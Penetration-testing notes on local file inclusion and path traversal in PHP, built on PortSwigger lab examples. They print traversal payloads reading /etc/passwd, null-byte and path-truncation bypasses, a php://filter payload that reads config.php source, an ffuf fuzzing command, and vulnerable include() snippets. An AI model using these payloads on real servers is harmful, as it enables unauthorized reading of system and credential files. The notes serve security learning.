


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# File Disclosure


**File Inclusion** occurs when an attacker can trick a web application into including files on the server. This can be either **Local File Inclusion (LFI)**, where the attacker includes files from the server's filesystem, or **Remote File Inclusion (RFI)**, where the attacker includes files from a remote server. File Inclusion is typically combined with **Directory Traversal** which allows an attacker to access files and directories stored outside the web root folder.


## General Information

The common place we usually find LFI within is **template engines**. These keep the static parts of the web application the same when navigating between different pages. For example, `/index.php?page=about'`:

* `/index.php` sets the static content
* `?page=about` pulls the dynamic content, e.g. `about.php`

## Filters & Bypasses

| Filter                                                   | Bypass                                  |
| -------------------------------------------------------- | --------------------------------------- |
| [Expected path](file-disclosure.md#approved-paths)       | Include path within the payload         |
| Path traversal sequence removal (`../`)                  | Double them up (non-recursive)          |
| Character filter (`.`, `/`)                              | URL-encode once or twice                |
| [Appended extension](file-disclosure.md#filename-prefix) | Null byte (`%00`, `0x00`) (PHP < 5.3.4) |


LFI flaws can be exploited using [relative](file-disclosure.md#simple-case) or [absolute](file-disclosure.md#absolute-path) paths. If the application does not block traversal sequences (`../`), **default on using a relative path** as it will work on both cases. If unsure where you are (`pwd`) **keep adding `../`** as it won't break the path.


## Examples

### Relative Path

```php
# String appended/prepended to the parameter
include("./languages/" . $_GET['language']);
```

> _The example below is based on PostSwigger's_ [_File path traversal, simple case_](https://portswigger.net/web-security/file-path-traversal/lab-simple) _lab._

<figure><figcaption><p>Figure 1: Identifying a potentially vulnerable to File Inclusion parameter.</p></figcaption></figure>

<figure><figcaption><p>Figure 2: Performing a File Inclusion fuzzing for the <code>/etc/passwd</code> file.</p></figcaption></figure>

### Absolute Path

When the application's code use the whole input to read a file, the source code might look similar to the one below.

```php
# The whole input is used
include($_GET['language']);
```

In this case, we can read a file directly, given that no LFI filters are implemented.

_The example below is based on PostSwigger's_ [_File path traversal, traversal sequences blocked with absolute path bypass_](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass) _lab._

If we perform the same attack as [above](file-disclosure.md#simple-case), this time it won't work (Figure 3), because path traversal sequences (`../`) are blocked to prevent reading files outside of the web root directory.

<figure><figcaption><p>Figure 3: An unsuccessful LFI-fuzzing attack.</p></figcaption></figure>

This is achieved by what is known as **Search and Replace filters** which remove all instances of path traversal sequences. For instance, `../../../etc/passwd` becomes `etc/passwd`. If this filter is **non-recursive**, i.e., runs just a single time on the input string, it can be bypassing by doubling up the `../` (or `..././`, `..../`, `....////`, etc). Unfortunately, this isn't the case here.

```php
# Search and replace filter
$language = str_replace('../', '', $_GET['language']);
```

We can try repeating the attack using different wordlists that including filter-bypassing techniques, like [LFI-Jhaddix.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt), with Burp's Intruder or an open-source CLI tool, such as [`ffuf`](../../../tools/web/dirbusting/fuff.md). In this case, two different payloads worked, one using the absolute path of the file and one that bypasses the path traversal sequence filter (Figure 4).&#x20;


```bash
ffuf -u 'https://0a5c00d20469866d80b2ad6300c30006.web-security-academy.net/image?filename=FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -c -ac -ic -mr 'root:'
```


<figure><figcaption><p>Figure 4: A successful LFI-fuzzing attack.</p></figcaption></figure>

### Approved Paths

A common protective technique against LFI is the use of regular expressions to ensure that the file being included is under a defined directory, resulting in a filter such as the following.


```php
# Using regex to "lock" down the directory
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) { include($_GET['language']); } else { echo 'Illegal path specified!'; }
```


This can be easily bypassed by **including the required directory within the payload**.

> _The example below is based on PostSwigger's_ [_File path traversal, validation of start of path_](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path) _lab._

<figure><figcaption><p>Figure 5: Exploiting LFI using by including the expected file path.</p></figcaption></figure>

We can also fuzz the filename value (e.g `42.jpg`) while keeping the expected file path using an LFI-specific wordlist, such as [LFI-Jhaddix.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt) (Figure 6).

<figure><figcaption><p>Figure 6: Fuzzing the filename with an LFI-specific wordlist.</p></figcaption></figure>

### Filename Prefix


Using `/../` (_the directory may not exist and may break some FI techniques, such as PHP wrappers/filters_).


```php
# Input appended after another string
include("lang_" . $_GET['language']);
```

```html
<!-- Bypassing prefix -->
/index.php?language=/../../../etc/passwd
```

### Appended Extensions

```php
# Extension appended to the target parameter
include($_GET['language'] . ".php");
```

#### Path Truncation (ealier PHP versions)

* Max strings length is `4096` chars -> everything longer is truncated.
* Trailing `/` and `.` in path names are truncated (`/etc/passwd/.` -> `/etc/passwd`).
* Both PHP and Linux disregard multiple `/` in the path ( `////etc/passwd` =`/etc/passwd`).
* Similarly, a current directory shortcut (`.`) in the middle of the path would also be disregarded.

Based on the those characteristics, we can create very long strings that evaluate to the target path.


For this technique to work, we need to **start the path with a non-existing directory**.



```html
<!-- Creating a string longer than 4096 chars -->
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```



```bash
# Creating the above with bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done non_existing_directory/../../../etc/passwd/./././././././
```


#### Null Byte (PHP < 5.3.4)

Appended extensions can be also bypassed with the use of a **null byte** (`%00` or `0x00`).

```html
<!-- Commenting out the extension -->
/index.php?language=/../../../etc/passwd%00
```

### PHP Filters

Read the source code of PHP files.

```html
<!-- Exfiltrating the source code of the config.php file -->
/index.php?language=php://filter/read=convert.base64-encode/resource=config.php
```

For an example of this check [StreamIO](../../../boxes/medium/streamio.md#local-file-inclusion).

### Second-Order Attacks

Poison a database entry, so another web application functionality gets tricked or our registration name. This type of attack is often overlooked by the developers, as values pulled from the application's database is generally trusted, i.e., not sanitized.

1. Option to download our avatar via `/profile/$username/avatar.png`.
2. Craft a malicious LFI username, such as `../../../etc/passwd`.
